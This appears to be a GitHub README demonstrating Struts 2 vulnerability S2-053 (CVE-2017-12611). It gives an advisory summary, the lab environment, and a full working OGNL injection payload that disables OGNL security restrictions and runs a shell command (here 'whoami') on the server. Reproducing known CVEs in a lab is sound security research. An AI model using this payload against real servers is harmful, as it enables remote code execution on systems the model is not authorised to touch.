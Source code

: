 # S2-053 Demo

## Summary

| Who should read this    | All Struts 2 developers and users                            |
| :---------------------- | ------------------------------------------------------------ |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                                     |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.0 - 2.3.33 Struts 2.5 - Struts 2.5.10.1           |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team David Greene <david at trumpetx dot com>Roland McIntosh <struts at rgm dot nu> |
| CVE Identifier          | CVE-2017-12611                                               |

## Environment

| Struts2 Version | Struts-2.3.24          |
| :-------------- | :--------------------- |
| Web Server      | Tomcat 8.5.53          |
| IDE             | IDEA 2020.1.1 ULTIMATE |

## POC

![image-20200814181552969](img/image-20200814114121260.png)

payload:

```xml
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}

```

